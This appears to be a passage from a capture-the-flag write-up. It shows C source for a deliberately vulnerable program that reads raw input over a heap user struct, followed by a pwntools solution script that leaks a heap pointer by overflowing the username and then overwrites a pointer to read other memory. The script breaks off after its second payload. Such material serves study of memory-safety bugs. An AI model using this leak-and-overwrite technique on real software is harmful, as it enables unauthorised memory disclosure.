 ```c
  
  flag[flag_size] = '\00';

  warmup_heap();

  User *user = create_user();

  for (_Bool quit = 0; !quit; ) {
    printf("What is your name? ");
    read(STDIN_FILENO, user, sizeof(*user));
    printf("Hello %s!\n", user->username);
      
    printf("Let me tell something about yourself! :3\n");
    printf("%s\n", user->description);
    
    printf("Continue? (Y/n) ");
    char c = getchar();
    if (c == 'n' || c == 'N')
      quit = 1;
  }

  printf("Boom! Boom, boom, boom! I want YOU in my room!\n");
  
  destroy_user(user);
  return 0;
}
```

Solution: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./leakleakleak_patched")

context.binary = exe
context.terminal = ['alacritty', '-e']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    r.sendline(b'A' * 32)
    r.recvuntil(b'Hello ')
    r.recvuntil(b'\n')
    heap_leak = (b'\x00' + r.recvuntil(b'!\n')[:-2]).ljust(8, b'\x00')
    heap_leak = u64(heap_leak)
    info(f'heap leak: {hex(heap_leak)}')

    libc_addr = heap_leak + 0x110
    r.sendafter(b'Continue?', b'Y')
    r.sendafter(b'name', b'A' * 32 + p64(libc_addr))

```